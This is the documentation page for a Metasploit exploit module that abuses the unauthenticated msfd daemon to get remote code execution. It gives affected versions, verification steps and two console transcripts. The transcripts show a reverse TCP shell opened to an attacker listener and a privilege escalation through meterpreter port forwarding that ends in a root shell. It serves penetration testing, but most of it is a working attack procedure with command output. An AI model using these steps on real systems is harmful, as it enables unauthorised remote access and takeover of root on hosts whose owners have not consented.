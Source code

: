 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can target remote systems if the daemon is
exposed on a remote interface or it can be used for privilege escalation when
the attacker has a foothold. If used as privilege escalation, port forwarding
must be set up.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04
* Metasploit 4.16.51 on Windows 7

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service: `msfd -f -q -a 0.0.0.0`
2. Start `msfconsole`
3. Do: `use exploit/multi/misc/msfd_rce_remote`
4. Do: `set RHOST [IP]`
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. You should get a shell


## Options

### RHOST

  Remote Host

### RPORT

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Remote target

  ```
  msf > use exploit/multi/misc/msfd_rce_remote
  msf exploit(multi/misc/msfd_rce_remote) > set rhost 192.168.56.101
  rhost => 192.168.56.101
  msf exploit(multi/misc/msfd_rce_remote) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf exploit(multi/misc/msfd_rce_remote) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf exploit(multi/misc/msfd_rce_remote) > set lport 443
  lport => 443
  msf exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 1 opened (172.17.0.2:443 -> 192.168.0.17:48152) at 2018-04-22 18:43:41 +0000

  whoami
  robin
  ```


### Local target - privilege escalation

  ```
  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > shell
  Process 17366 created.
  Channel 1 created.
  netstat -lntup|grep 55554
  (Not all processes could be identified, non-owned process info
   will not be shown, you would have to be root to see it all.)
  tcp        0      0 127.0.0.1:55554         0.0.0.0:*      LISTEN -
  ps aux | grep msfd
  root     17303  3.3 13.8 535168 283492 pts/18  Sl+  20:47   0:08 ruby ./msfd -f -q
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > portfwd add -l 55554 -p 55554 -r 127.0.0.1
  [*] Local TCP relay created: :55554 <-> 127.0.0.1:55554
  meterpreter > background
  [*] Backgrounding session 2...
  msf > use exploit/multi/misc/msfd_rce_remote
  msf exploit(multi/misc/msfd_rce_remote) > set rhost 127.0.0.1
  rhost => 127.0.0.1
  msf exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 3 opened (172.17.0.2:443 -> 192.168.0.17:48300) at 2018-04-22 18:55:19 +0000

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

